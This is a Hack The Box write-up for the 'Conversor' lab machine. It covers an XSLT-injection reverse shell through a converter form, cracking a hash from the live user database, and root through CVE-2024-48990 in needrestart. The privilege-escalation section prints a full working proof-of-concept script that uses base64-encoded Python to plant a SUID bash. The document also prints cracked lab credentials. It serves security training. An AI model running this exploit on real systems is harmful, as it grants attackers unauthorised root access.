


# Conversor

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">XSLT injection</span>
<span class="wu-tag">Hash cracking</span>
<span class="wu-tag">needrestart</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Conversor offered its source alongside an XML/XSLT conversion form. The database in the download was empty, but the live copy was not. That distinction led from the converter to SSH and then a needrestart escalation.

## Attack path

1. Submit the recorded XSLT proof of concept to obtain the web-service shell.
2. Read the live user database and crack fismathack's password.
3. Trigger needrestart while the CVE-2024-48990 payload controls PYTHONPATH.

[HTB machine](https://app.hackthebox.com/machines/787) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/787) (checked November 17, 2026).

## Setup 

```fish
set -gx IP 10.10.11.92
```

### /etc/hosts
```bash
echo "$IP   conversor.htb " | sudo tee -a /etc/hosts 
```

---
## Enumeration
### Nmap Results
```text
 Status: Up
Host: 10.10.11.92 ()    Ports: 
22/open/tcp//ssh//OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)/,
80/open/tcp//http//Apache httpd 2.4.52/
```

---
## Service Enumeration

### 80 

The landing page requires us to register an account and this functionality does work properly, so register a user first with any username and password combination, then login to the dashboard. You should then be directed to a Converter which takes an XML file, for nmap scans, along with a templated XSLT file to create a pretty HTML file for your nmap scan.

Additionally, by navigating through the available directories from the side menu, we can see that we can download the source code for the application under the About section. While we don't immediately see anything interesting, we do find an empty `users.db` file which will come up later.

---
## Foothold (Initial Access)

By Googling XSLT exploit, we can find references to creating reverse shell payloads through XSLT injection:

[Reference](https://github.com/ex-cal1bur/XSLT-Injection_reverse-shell)

The customized XSLT file was not retained in the notes; the exploit source is linked above. Copy the `malicious.xslt` file onto the attacking machine, then update the attacker IP and port. Start up a netcat listener, then upload the malicious file onto the site as your XSLT template. 

Once you've hit Convert, you should see the clickable link populated below.

<figure class="wu-evidence" markdown>

<figcaption>The converter lists generated HTML from uploaded XML and XSLT.</figcaption>
</figure>

Click the uploaded file while having the netcat listener open to obtain a shell as the service account `www-data`.

Since we saw from the source code earlier that `users.db` exists, we can traverse into the directory from the shell for `www-data`, then see the `users.db` file contents by using the following series of commands:
```bash
sqlite3 users.db
.tables
select * from users;
```

We should see the user account created in our initial access to the application along with the following:

```text
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
```

Run the hash through hashcat:

```bash
hashcat -m 0 5b5c3ac3a1c897c94caad48e6c71fdec /usr/share/wordlists/rockyou.txt 
```

We now have obtained the following credentials:
```text
fismathack:Keepmesafeandwarm
```

---
## Privilege Escalation

### Exploitation

As user `fismathack`, run the following command to see what sudo privileges we have.

```bash
sudo -l

...
(ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

Google `needrestart exploit` to find the following CVE and GitHub link:

[Reference](https://github.com/o-sec/CVE-2024-48990/tree/main)

```bash title="poc.sh"
#!/usr/bin/env bash

# CVE-2024-48990  Proof-Of-Concept
# read more about this vulnerability from :   https://nvd.nist.gov/vuln/detail/CVE-2024-48990
# this exploit will create a suid copy of /bin/bash  in /tmp/   ( use /tmp/bash -p ) to get a root shell
#

# set up the environment for the exploit
function SetupEnvironment() {
  # export PYTHONPATH environment variable
  TempDir=$(mktemp -d)
  export PYTHONPATH=$TempDir
  
  # create a mallicious importlib which will make a suid copy of /bin/bash into /tmp/
  mkdir "$TempDir/importlib"
  echo "ZnJvbSBvcyBpbXBvcnQgc3lzdGVtLCBnZXR1aWQKaWYgZ2V0dWlkKCkgPT0gMDoKICAgIHN5c3RlbSgiY3AgL2Jpbi9iYXNoIC90bXAvYmFzaCA7IGNobW9kIHUrcyAvdG1wL2Jhc2ggOyBleGl0IikK" | base64 -d > "$TempDir/importlib/__init__.py"
  
  # create a script that will start an infinite loop until the file /bin/bash is created
  echo "aW1wb3J0IG9zLCB0aW1lCmZyb20gc3lzIGltcG9ydCBleGl0Cgp3aGlsZSAxOgogICAgaWYgb3MucGF0aC5leGlzdHMoJy90bXAvYmFzaCcpOgogICAgICAgIHByaW50KCJbK10gLSBFeHBsb2l0IHdhcyBzdWNjZXNzZnVsIFwiL3RtcC9iYXNoXCIgaXMgY3JlYXRlZCAhIikKICAgICAgICBleGl0KDApCiAgICBlbHNlOgogICAgICAgIHRpbWUuc2xlZXAoMC4zKQo=" | base64 -d > "$TempDir/loop.py"
  
}

# start the exploit 
function StartExploit() {
  # find out which python version are used 
  python=$(which python || which python3)
  
  if [[ -n $python ]];then
    echo "[+] - setting up the environment..."
    SetupEnvironment
    echo "[+] - starting the attack..."
    echo "[+] - waiting for needrestart to run..."
    $python "$TempDir/loop.py" 2> /dev/null
  fi

}

function CleanUp() {
  # clean up the lefting
  rm -rf $TempDir
  
}

read -p "Press any key to start !"
StartExploit
echo "[] - cleaning up..."
CleanUp
```

We can exploit this vulnerability using the POC above by copying the `poc.sh` contents directly onto our target machine, then making the file executable. 

Now, open another terminal tab and SSH onto the machine again as our user `fismathack`. The POC above will wait for a privileged account to run `needrestart` with sudo privileges and thankfully our user `fismathack` can do just that.

Run `sudo needrestart` after starting the `poc.sh` script to trigger the `/tmp/bash` file creation. Now, as stated in line 5 of the `poc.sh` script, use `/tmp/bash -p` to get a root shell.

<figure class="wu-evidence" markdown>

<figcaption>The needrestart payload creates a privileged Bash binary and whoami returns root.</figcaption>
</figure>

## Lessons learned

The empty database in a source archive did not describe the live application. Later, needrestart crossed the privilege boundary by trusting a Python environment influenced by the lower-privileged process.
